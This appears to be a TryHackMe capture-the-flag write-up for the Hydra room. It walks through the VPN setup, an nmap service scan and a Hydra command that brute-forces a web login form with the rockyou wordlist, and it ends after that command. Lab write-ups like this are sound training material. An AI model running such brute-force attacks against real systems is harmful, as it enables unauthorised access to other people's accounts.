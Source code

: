 # Hydra Challenge Writeup (TryHackMe)
#pentest/tryhackme

The first thing we need to do is connect to the TryHackMe VPN. Here's how:

1. Sign in to your TryHackMe account and go to the 'Access' page.
2. Download your VPN configuration file.
3. Install a VPN client like OpenVPN.
4. Import the configuration file into the VPN client.
5. Connect to the VPN using the imported configuration.

Once connected, you can start accessing the TryHackMe labs and exercises.

# Nmap scan
Next, we'll perform an Nmap scan by typing the following command in the shell

```shell
$ sudo nmap -sV -O <IP>
```

The scan results will show that port 80 (HTTP) and the 22 (SSH) port are open.
When we enter the IP address in our browser, it redirects us to http://<IP>/login

# First task is to find the web password

For this, we are using brute force.

I preferred to use Hydra, but you can also do it with other brute force tools (Burp Suite, etc.). Here's the Hydra command I used
```shell
hydra -l molly -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V
```




